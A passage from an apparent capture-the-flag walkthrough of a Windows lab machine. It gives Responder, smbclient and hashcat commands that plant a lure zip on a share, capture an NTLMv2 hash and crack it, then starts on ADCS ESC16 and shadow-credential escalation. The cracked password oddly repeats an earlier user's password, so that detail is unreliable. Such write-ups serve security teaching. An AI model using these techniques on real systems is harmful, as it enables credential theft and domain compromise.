     ```bash
    sudo responder -I tun0 -F
    ```

      * `-I tun0`: Specifies the interface to listen on (adjust if your VPN interface is different).
      * `-F`: Forces NTLM authentication, useful in some scenarios.

4.  **Upload the Zip File:**
    Upload `malware.zip` to the `IT` share using `smbclient`.

    ```bash
    smbclient //10.10.11.69/IT -U jfleshman%'PrometheusX303'
    put malware.zip
    ```

5.  **Wait for Hash Capture:** Wait for a user on the target machine to interact with the `malware.zip` file. Once they do, Responder will capture an NTLMv2 hash. The video captured the hash for user `pagula`.

### Crack the NTLMv2 Hash

1.  **Extract the Hash:** Copy the captured NTLMv2 hash from Responder's output.
2.  **Crack with Hashcat:**
    ```bash
    hashcat -m 5600 pagula_ntlmv2.hash /usr/share/wordlists/rockyou.txt --force
    ```
      * `-m 5600`: Specifies the hash type for NTLMv2.

The video successfully cracks the hash, revealing the password for `pagula` as `PrometheusX303`.

-----

## Privilege Escalation to Administrator

With the `pagula` credentials, the next stage involves exploiting Active Directory Certificate Services (ADCS) using the ESC16 vulnerability to gain administrator privileges.

### Verifying `pagula`'s Privileges

After obtaining `pagula`'s credentials, analyze their group memberships and permissions in BloodHound.

1.  **Update `creds.txt`:**

    ```bash
    echo "pagula:PrometheusX303" >> creds.txt
    ```

2.  **BloodHound Analysis:** Log in as `pagula` in BloodHound (mark as owned). The video notes `pagula` is a member of `Service Account Managers`, which grants `GenericAll` or `GenericWrite` permissions over several service accounts (e.g., `CA service`, `LDAP service`, `WinRM service`).

### Abusing `GenericWrite` on Service Accounts (Shadow Credentials)
